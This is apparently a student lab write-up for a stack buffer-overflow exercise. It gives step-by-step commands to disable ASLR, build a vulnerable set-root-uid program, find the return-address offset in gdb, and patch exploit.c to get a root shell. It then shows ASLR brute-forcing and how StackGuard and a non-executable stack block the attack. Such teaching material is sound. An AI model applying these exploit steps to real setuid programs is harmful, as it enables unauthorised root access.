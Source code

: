 # Task 1: Exploiting the Vulnerability
## preparation

Disable address apace randomization:

    sudo sysctl -w kernel.randomize_va_space=0

Create an empty badfile for debugger:

    touch badfile

**NOTE**: If you are using Ubuntu 16.04 or later, the default `dash` shell will not work properly (you won't get a root shell). Use following commands to replace `dash` by `zsh` before starting:

    sudo apt-get install zsh
    sudo rm /bin/sh
    sudo ln -s /bin/zsh /bin/sh
    exit

## test `call_shellcode.c`

    gcc -z execstack -o call_shellcode call_shellcode.c
    ./call_shellcode

A shell should be invoked here

## edit and compile `stack.c`

Insert codes after `char buffer[24];` :

```c
printf("%p\n", buffer);
```

Then compile `stack.c` in root account, and make it *set-root-uid*:

    su root
    gcc -o stack -z execstack -fno-stack-protector stack.c
    chmod 4755 stack
    exit

## check buffer address & offset

First run stack:

    ./stack

Take the output address as ***BUF***. You can also see an output `Returned Properly` here.

Then start gdb and disassemble function `bof`:

    gdb stack
    disas bof

Take the offset of the instruction `<strcpy>` as N. Set two breakpoints and start to run:

    b *(bof+0)
    b *(bof+N)
    r
    x/x $esp

You can get `addrA: xxxx` which shows the memory that contains return address. Then continue:

    c
    x/x $esp

Here you'll get `xxxx: addrB` which represents the start address of `buffer` in gdb. Now you can calculate offset:

    p addrA-addrB

Copy ***OFFSET*** *= addA - addrB* calculated above, then quit gdb:

    q
    y

## edit `exploit.c`

Insert codes after `memset(&buffer, 0x90, 517);` :

```c
long addr = BUF + OFFSET + 4;
long *ptr = (long *) (buffer + OFFSET);
*ptr = addr;
strcpy(buffer + OFFSET + 4, shellcode);
```

## compile `exploit.c` and run!

    gcc -o exploit exploit.c
    ./exploit
    ./stack

You should see a **#** here, which means you've got a root shell! You can check this by typing the following:

    id
    whoami

# Task 2: Address Randomization

First turn on address randomization and try to run `stack`:

    sudo sysctl -w kernel.randomize_va_space=2
    ./stack

You should see a different output address, and an error `Segmentation fault (core dumped)` occered.

## edit `exploit.c`

Replace `BUF` with the address shown above, and change the destiny of `srtcpy` to the end of `buffer` as long as it can hold shellcode:

```c
long addr = BUF + OFFSET + 4;
long *ptr = (long *) (buffer + OFFSET);
*ptr = addr;
strcpy(buffer + 480, shellcode);
```

## complie `exploit.c` and run `stack` in a loop

    gcc -o exploit exploit.c
    ./exploit
    sh -c "while [ l ]; do ./stack; done;"

Wait for a while until you get a root shell again!

# Task 3: Stack Guard

Turn off the address randomization again, and recompile `stack.c` with stack guard:

    sudo sysctl -w kernel.randomize_va_space=0
    sudo gcc -o stack -z execstack stack.c
    sudo chmod 4755 stack

Edit `exploit.c` to older version done in Task 1 (just recover `BUF`):

```c
long addr = BUF + OFFSET + 4;
long *ptr = (long *) (buffer + OFFSET);
*ptr = addr;
strcpy(buffer + 480, shellcode);
```

See what will happen:

    gcc -o exploit exploit.c
    ./exploit
    ./stack

You should see an error message here:

    *** stack smashing detected ***: ./stack terminated
    Aborted (core dumped)

# Task 4: Non-executable Stack

Now try to complie `stack.c` with `noexecstack` option, and repeat the attcak. See what will happen:

    sudo gcc -o stack -z noexecstack -fno-stack-protector stack.c
    sudo chmod 4755 stack
    ./stack

You should see an error message here:

    Segmentation fault (core dumped)
